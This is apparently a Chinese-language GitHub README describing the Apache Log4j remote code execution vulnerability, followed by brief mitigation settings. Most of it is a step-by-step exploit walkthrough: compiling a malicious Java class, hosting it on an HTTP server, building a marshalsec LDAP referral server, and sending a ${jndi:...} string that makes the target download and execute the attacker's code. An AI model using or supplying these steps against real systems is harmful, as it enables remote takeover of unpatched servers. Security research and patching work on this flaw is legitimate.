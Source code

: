 # Apache-Log4j
Apache Log4j 远程代码执行

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

### 触发步骤


1. 先编译Log4jRCE，这个是恶意java代码,需要预先编译成恶意java类。注意不要用版本太高的jdk编译，不然jdk低版本的靶机可能无法执行。随后启动http server
   1. 进入目录 `cd /home/remote`
   2. 编译 `javac Log4jRCE.java`
   3. 启动http server，python或php均可快速启动，如`php -S 0.0.0.0:8888`

2. 使用marshalsec的ldap server，访问这个ldap server内的任意资源都会被自动转发到http server的固定资源，这里需要转发到http server中的恶意java类文件
   1. `git clone https://github.com/mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. 启动ldap server并配置转发资源 `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(这里写http server在公网上的地址及端口)/#Log4jRCE"`
      此时对靶机提交${jndi:idap://ip:port/{随便写}}即可，ldap server会自动从http server中下载指定资源并返回给靶机。
3. 启动log4j.java，具体效果参考恶意java类中写的payload`。底层原理就是靶机会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

### 修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true
